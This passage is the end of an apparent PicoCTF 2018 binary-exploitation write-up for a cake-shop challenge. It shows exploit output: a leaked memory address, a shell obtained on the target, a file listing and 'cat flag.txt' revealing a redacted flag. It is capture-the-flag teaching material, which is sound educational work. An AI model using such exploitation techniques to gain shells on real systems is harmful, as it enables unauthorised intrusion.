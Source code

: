 ```
M
Making the cake......
Made cake 1.
Name>
b'\x10\xbb\xd9h\xe2\x7f\x00\x00'
Price>
140610394767978
M
In total, you have sold $33 worth of merchandise, and have 34 customers waiting.
[*] Switching to interactive mode
* [M]ake a cake.
* [W]ait for customers.
* [S]erve a customer.
* [I]nspect a cake.
* [C]lose the shop.
> Making the cake......
$ ls
cake
flag.txt
libc.so.6
xinet_startup.sh
$ cat flag.txt
picoCTF{===REDACTED===}
```
{:.contains-term}


**Boom**! Head back to the [PicoCTF 2018 BinExp Guide]({% link _reference/Hacking-101/PicoCTF-2018-Binary-Exploits.md %}) to continue with the **LAST AND FINAL** challenge.
